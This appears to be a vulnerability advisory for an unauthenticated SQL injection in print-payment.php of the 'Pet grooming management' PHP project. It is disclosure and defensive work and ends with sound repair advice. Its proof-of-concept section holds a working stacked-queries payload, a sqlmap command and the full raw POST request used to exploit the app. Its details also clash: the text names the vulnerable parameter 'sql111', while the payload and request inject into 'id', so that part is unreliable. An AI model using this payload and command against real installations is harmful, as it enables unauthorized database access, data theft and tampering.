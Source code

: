 # Pet grooming management print-payment.php  v.1.0 Unauthorized sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- [Pet grooming management software download | SourceCodester](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- xiaoliyu-1
## VERSION(S)

- V1.0

## Software Link

- [Downloading Pet grooming management software download Code | SourceCodester](https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'print-payment.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter "sql111" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical Unauthorized SQL injection vulnerability in the "print-payment.php" file. This vulnerability stems from insufficient user input validation of the 'sql111' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- stacked queries

## Vulnerability location:

- "sql111" parameter

## Payload:

```
Parameter: #1* ((custom) POST)                                        
    Type: stacked queries                                             
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=-1';SELECT SLEEP(5)#
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#
```

![image-20250917173114.png](./assets/image-20250917173114.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
sqlmap -r 1.req  --dbs -v 3 --batch --level 5
//1.req
POST /pet_grooming/admin/print-payment.php HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

id=-1*
```

# Attack results

![image-20250917173323.png](./assets/image-20250917173323.png)
# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
